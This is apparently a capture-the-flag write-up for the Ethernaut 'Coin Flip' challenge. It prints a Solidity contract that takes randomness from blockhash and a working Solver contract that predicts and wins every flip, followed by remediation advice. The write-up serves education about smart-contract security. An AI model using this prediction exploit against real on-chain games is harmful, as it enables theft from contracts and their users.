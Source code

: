 ![Coin Flip](/assets/img/BigLevel3.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

This challenge gives us the code of the contract and reads:

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

The code given is:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Solution

By looking at the contract's code, we see that we can call the flip function, which takes a boolean as input and after "throwing a coin" it compares the outcome with our bet (our input) if they are the same it increments the `consecutiveWins` counter by 1, if it differs, it sets the variable back to 0. 

To solve this challenge, it says that we need to guess the correct outcome 10 times in a row.

So, how can we guess the output of the "coin flip". Well let's look at that code. To get the coin flip, it takes the last block number, gets its hash and divides it by a "factor". This will give true or false.

The problem with this "randomness" generation method is that it's not random at all! Anyone can know what the last block number is... We just need to code some kind of solver or guesser.

To do that I copied the `CoinFlip.sol` code given by the challenge and modified it, so it would "guess" what the outcome of `flip()` will be, and then call `coinFlip.flip()` with that same output:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";
import "./CoinFlip.sol";

contract Solver {
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinFlip;
    uint256 public consecutiveWins = 0;

    constructor(address coinFlipAddress) {
        coinFlip = CoinFlip(coinFlipAddress);
    }

    function solve() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        console.log("Solver blockValue: ", blockValue);

        uint256 coin = blockValue / FACTOR;

        bool side = coin == 1 ? true : false;
        coinFlip.flip(side);
        consecutiveWins = coinFlip.consecutiveWins();
        console.log("Consecutive wins: ", coinFlip.consecutiveWins());
    }
}
```

We can deploy this Solver contract with the ethernaut's contract address as input and the run `solve()` function 10 times.

I created a Hardhat project that will automatically deploy the contract and run the `solve()` function 10 times! You can find it here: [ethernaut-03-coin-flip-solver](https://github.com/nicolasraus/ethernaut-03-coin-flip-solver)

After running `solve()` function 10 times, we can verify that now the `consecutiveWins` variable is 10 by running:
```javascript
await contract.consecutiveWins().then(v => v.toString())
'10'
```
And that's it! We solved it :))

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

To prevent this kind of vulnerabilities do not try to generate randomness by using fields that are controlled by the miner, instead use:
- a commitment scheme, e.g. [RANDAO](https://github.com/randao/randao).
- external sources of randomness via oracles, e.g. [Oraclize](http://www.oraclize.it/). Note that this approach requires trusting in oracle, thus it may be reasonable to use multiple oracles.
- Bitcoin block hashes, as they are more expensive to mine.

# References

- [SWC-120](https://swcregistry.io/docs/SWC-120)
